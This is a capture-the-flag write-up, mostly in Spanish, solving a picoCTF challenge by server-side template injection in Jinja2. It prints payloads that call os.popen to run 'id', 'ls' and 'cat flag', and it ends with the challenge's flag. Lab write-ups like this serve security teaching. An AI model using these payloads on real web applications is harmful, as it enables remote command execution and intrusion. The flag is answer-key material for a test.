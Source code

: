 #### Description

I made a cool website where you can announce whatever you want! Try it out!

Additional details will be available after launching your challenge instance.
¡Creé una página web genial donde puedes anunciar lo que quieras! ¡Pruébala!

Habrá detalles adicionales disponibles después de lanzar su instancia de desafío.

* Consejos:
	* Server Side Template Injection.
	  Inyección de plantilla del lado del servidor


http://rescued-float.picoctf.net:57329/
* Nos vamos  Server Side Template Injection
  https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
  * Se copia:
  ![[Pasted image 20250414201450.png]]

* Le damos ok, nos sale algo de root: {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
  
* después de cambia id por ls: {{request.application.__globals__.__builtins__.__import__('os').popen('==ls==').read()}}

* Sale el nombre del archivo que es flag

* después se cambia ls por cat flag{{request.application.__globals__.__builtins__.__import__('os').popen('==cat flag==').read()}}
  y sale la bandera.
## Solucion:
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}
```
